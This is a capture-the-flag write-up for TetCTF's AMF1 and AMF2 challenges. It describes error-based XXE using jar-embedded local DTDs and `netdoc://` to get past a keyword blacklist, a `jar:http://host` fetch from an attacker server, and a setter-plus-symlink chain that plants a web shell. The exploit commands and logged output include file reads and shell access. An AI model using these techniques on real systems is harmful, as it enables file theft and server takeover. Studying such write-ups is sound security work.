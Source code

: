 # AMF1

- in this challenge, it's about XXE with some specific techniques on Java

- the blacklist is: `file|ftp|http|https|data|class|bash|logs|log|conf|etc|session|proc|root|history`

- so you can't make a outbound request to get your remote DTD, this time we need a local DTD to archive XXE. Have a quick look on this awesome blog: https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation/

- with the trick: `jar:/file://[some_zip_file]!/[dtd_inside_the_archive]`, we can make use of local DTD in some jars file of Tomcat
- Reference: https://github.com/GoSecure/dtd-finder/blob/master/list/xxe_payloads_jars.md

- Java has `netdoc://` protocol, which is same as `file://`

- In the context of AMF, it will catch the Exception while handling the xml, and through it as HTTP Response, we can make use of this to archive XXE error-based
    - For ex: 
        - `_://` => no protocol exceptio

- Final Exploit
    - using `jar://` to load dtd inside some Tomcat jars
    - using `netdoc://` instead of `file://`, `netdoc://` or `file://` can also listing the directory (use to find the flag)
    - amf context exif error message via HTTP Respose + `_://` => error-based XXE

            python amf_xxe.py "http://139.162.40.239:1337/tetctf/messagebroker/amf" foo tetctf_v1


# AMF2

- in the second challenge, we exploit another bug on AMF, trigger `readExternal()` or some public `setters`, this allow us to trigger the `setBackupFile` of `TetCTFUtils`
- `TetCTFUtils.setBackupFile()` execute a `tar` command on arbitrary file on the system, so we need to create and upload a tar symlink file to server with `UploadServlet`
- Another clever way, we can make use of XXE with `jar:http://host/a.zip!/a.txt` with a custom socket server to make the server save the tmp file, and hang the connection to make the tmp file not deleted for a while, then use the xxe bug with `file://` to listing the directory to view the file name of tmp file, and finally, trigger the setter
- The last step: when we have created the symlink to the webroot, we just need to write our shell to the file and it would be written to the webroot as our shell, so you can pass all the filter in the `UploadServlet`

## on your server run: 
    python jar_xxe_server.py

- edit the content of payload `trigger_jar_xxe` in `amf_xxe.py` to point to your socket server

## python tetctf_exp.py 


    [+] trigger_amf_xxe etc_hosts
    etc_hosts output: 
    127.0.0.1	localhost
    ::1	localhost ip6-localhost ip6-loopback
    fe00::0	ip6-localnet
    ff00::0	ip6-mcastprefix
    ff02::1	ip6-allnodes
    ff02::2	ip6-allrouters
    172.17.0.3	02688b965fbd (No such file or directory)...Bwlb.....
    [+] Done
    [+] trigger_amf_xxe trigger_jar_xxe
    [+] trigger_amf_xxe get_tmp_filename
    get_tmp_filename output: 
    jar_cache7343514775749524690.tmp
    safeToDelete.tmp (No such file or directory)...Bwlb.2...
    [+] Done
    [+] tmp filename: jar_cache7343514775749524690.tmp
    [+] generate_amf_setter_payload
    [+] trigger_setter
    AppendToGatewayUrl,;jsessionid=A9A1197B578F257C267FABA24A88FF87	/onStatus 
    C	coderootCausedetailsmessage#Server.ProcessinThe supplied destination id is not registered with any service.
    [+] upload_via_symlink
    { "serviceResponse":"true", "serviceError":null, "serviceName":"File Upload", "opName":"fileUpload" }
    [+] done, enjoy shell
    /peterjson@remote_shell/~.~
    id

    uid=1000(service) gid=1000(service) groups=1000(service)


    None
    /peterjson@remote_shell/~.~
    whoami       

    service




